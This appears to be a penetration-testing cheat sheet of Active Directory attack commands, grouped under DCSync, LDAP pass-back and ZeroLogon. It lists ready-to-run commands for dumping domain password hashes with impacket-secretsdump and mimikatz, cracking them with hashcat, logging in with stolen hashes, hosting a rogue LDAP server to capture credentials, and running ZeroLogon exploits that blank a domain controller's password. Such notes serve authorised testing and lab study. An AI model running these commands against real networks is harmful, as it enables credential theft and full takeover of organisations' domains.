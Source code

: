 ### Domain Controller Synchronization (DCSync)

With Bloodhound, use the query 'Find Principals with DCSync Rights'
- Another way to see which user can DCSync is to see who possesses 'Replication Rights' with PowerView.ps1
  - `Get-ObjectACL "<LDAP_Path>" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get') }`

On Linux
1. `impacket-secretsdump -just-dc-user <target-user> <domain>/<user>:"<password>"@<IP>`
2. Crack the NTLM hash with `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

On Windows
1. In mimikatz, run the command `lsadump::dcsync /user:<domain>\<user>`, note the Hash NTLM
2. Crack the NTLM hash with `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

Another way
- With [aclpwn.py](https://github.com/fox-it/aclpwn.py), `python aclpwn.py -f <username> -t <target_domain> --domain <domain> --server <IP> -du <domain_user> -dp <domain_password>`

Connect with NTLM
- `evil-winrm -u Administrator -H '<NTLM_hash>' -i <IP> -N`
- `impacket-psexec <domain>/administrator@<IP> -hashes <NTLM_hash>`


### LDAP Pass-back attack

If you find an endpoint where you can connect back to an arbitrary LDAP server
- run `nc -vlp 389`
- Host a Rogue LDAP Server
  1. `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
  2. `sudo dpkg-reconfigure -p low slapd`
  3. `nano olcSaslSecProps.ldif`
  4. `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`
  5. Verify it: `ldapsearch -H ldap://<IP> -x -LLL -s base -b "" supportedSASLMechanisms`


### ZeroLogon

- Explanation of ZeroLogon: [TryHackMe - ZeroLogon](https://tryhackme.com/room/zer0logon)

STEP 1, CHOOSE ONE EXPLOIT
- `python3 '/path/to/set_empty_pw.py' <target_DC> <attacker_IP>`
- `python3 '/path/to/zerologon_tester.py' <target_DC> <attacker_IP>`

STEP 2
- `impacket-secretsdump -hashes :<empty_ntlm_hash> '<DOMAIN>/<MACHINE>$@<target_IP>'`
- `impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:<empty_ntlm_hash> '<DOMAIN>/<MACHINE>$@<target_IP>'`
  - Replace placeholders accordingly:
    - `<target_DC>`: IP address or hostname of the target domain controller
    - `<attacker_IP>`: IP address of the attacker machine
    - `<DOMAIN>`: The domain name
    - `<MACHINE>`: The machine account name
    - `<target_IP>`: IP address of the target machine
    - `<empty_ntlm_hash>`: The empty NTLM hash (usually 31d6cfe0d16ae931b73c59d7e0c089c0)
  - Once secrets are dumped, select users with the following command:
    - `awk -F: '{print $1}' hashes.txt | sort | uniq`
